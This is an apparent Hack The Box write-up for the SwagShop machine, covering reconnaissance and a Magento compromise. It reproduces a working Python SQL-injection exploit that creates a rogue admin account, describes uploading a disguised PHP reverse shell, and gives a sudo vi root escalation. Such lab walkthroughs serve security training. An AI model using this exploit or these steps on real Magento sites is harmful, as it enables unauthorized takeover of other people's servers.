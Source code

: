 ```yaml
---
"title": "Hack The Box - Swagshop"
"date": 2019-12-11
"tags": ["linux", "easy", "sudo", "php"]
"keywords": ["linux", "easy", "sudo", "php"]
"author": "Ghostbyt3"
"description": "We are going to pwn SwagShop from Hack The Box."
"featured_image": "/img/htb-swagshop/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



![Untitled](/img/htb-swagshop/1.png)

We are going to pwn SwagShop from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/188](https://www.hackthebox.eu/home/machines/profile/188)


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lets Begin with HTTP 
![Untitled](/img/htb-swagshop/2.png)
It is Magento 

>Magento is an open-source e-commerce platform written in PHP. It is one of the most popular open e-commerce systems in the network. 

Run Gobuster on background

GObuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.140
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/27 09:57:45 Starting gobuster
===============================================================
/app (Status: 301)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/lib (Status: 301)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)
===============================================================
2019/12/27 10:00:03 Finished
===============================================================
```

So I searched for exploits available, and I choose randomly
![Untitled](/img/htb-swagshop/3.png)

>https://www.exploit-db.com/exploits/37977

This script will create admin account with username ``forme`` and password ``forme``
I changed the script's target url and executed.

```
 
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

```

![Untitled](/img/htb-swagshop/4.png)

It created an account , Now we can login with `` forme : forme ``

``http://10.10.10.140/index.php/admin``

and Im succesfully logged in.

![Untitled](/img/htb-swagshop/5.png)

## Froghopper Attack

I searched for any ways to reverse shell once we get authenticated and I found this

>https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper

According to the exploit I need to first enable ``Symlink``
![Untitled](/img/htb-swagshop/6.png)

Once its enabled 
We need to create Category so `` Catalog-> Manage Categories -> and add our malicious code with image ``.

I used pentest monkey reverse shell and added ``GIF89`` which makes the file as gif image.
![Untitled](/img/htb-swagshop/7.png)


![Untitled](/img/htb-swagshop/8.png)
Upload it and save category.
Once its done move to `` Newsletter -> Newsletter Templates `` and inject the payload
Click Preview Template and start listener on your machine.
![Untitled](/img/htb-swagshop/9.png)

We got the shell.

## Privilege Escalation:

As always I started with ``sudo -l``
![Untitled](/img/htb-swagshop/10.png)

It looks like ``/usr/bin/vi`` can run any files in ``/var/www/html`` as sudo without root password

>https://gtfobins.github.io/gtfobins/vi/

![Untitled](/img/htb-swagshop/11.png)
![Untitled](/img/htb-swagshop/12.png)

We goot Root!



